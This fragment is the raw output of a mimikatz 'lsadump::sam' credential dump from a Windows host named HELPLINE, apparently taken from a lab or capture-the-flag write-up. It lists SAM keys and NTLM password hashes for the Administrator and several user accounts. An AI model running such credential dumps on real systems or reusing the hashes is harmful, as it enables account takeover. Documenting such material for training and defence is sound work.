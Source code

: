 ```yaml

mimikatz # lsadump::sam

Domain : HELPLINE

SysKey : f684313986dcdab719c2950661809893

Local SID : S-1-5-21-3107372852-1132949149-763516304

SAMKey : 9db624e549009762ee47528b9aa6ed34

RID  : 000001f4 (500)

User : Administrator

  Hash NTLM: d5312b245d641b3fae0d07493a022622

RID  : 000001f5 (501)

User : Guest

RID  : 000001f7 (503)

User : DefaultAccount

RID  : 000001f8 (504)

User : WDAGUtilityAccount

  Hash NTLM: 52a344a6229f7bfa074d3052023f0b41

RID  : 000003e8 (1000)

User : alice

  Hash NTLM: 998a9de69e883618e987080249d20253

RID  : 000003ef (1007)

User : zachary

  Hash NTLM: eef285f4c800bcd1ae1e84c371eeb282

RID  : 000003f1 (1009)

User : leo

  Hash NTLM: 60b05a66232e2eb067b973c889b615dd

RID  : 000003f2 (1010)

User : niels

  Hash NTLM: 35a9de42e66dcdd5d512a796d03aef50

RID  : 000003f3 (1011)

User : tolu

  Hash NTLM: 03e2ec7aa7e82e479be07ecd34f1603b

```
